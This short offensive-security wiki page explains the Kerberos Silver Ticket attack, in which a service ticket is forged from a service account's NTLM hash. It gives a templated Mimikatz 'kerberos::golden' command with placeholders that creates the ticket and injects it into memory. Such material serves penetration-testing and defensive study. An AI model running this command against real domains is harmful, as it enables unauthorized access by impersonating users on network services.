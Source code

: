 # Silver Ticket

## Introduction

A **Silver Ticket** attack is a type of Kerberos attack that allows an **attacker** to forge a **service ticket**.

By creating a forged ticket, the attacker can gain access to specific services (like file shares, databases, or web services) as if they were a legitimate user.

In order to perform this attack the attacker needs the **NTLM hash** or **plaintext password** of the service account they want to impersonate.&#x20;

## Performing the attack

### Mimikatz

Crafting the ticket and inject it to the machine's memory using Mimikatz.

{% code overflow="wrap" %}
```
kerberos::golden /sid:<domain_sid> /domain:<domain> /ptt /target:<spn> /service:<spn_service> /rc4:<service_account_ntlm_hash> /user:<user_to_impersonate>
```
{% endcode %}
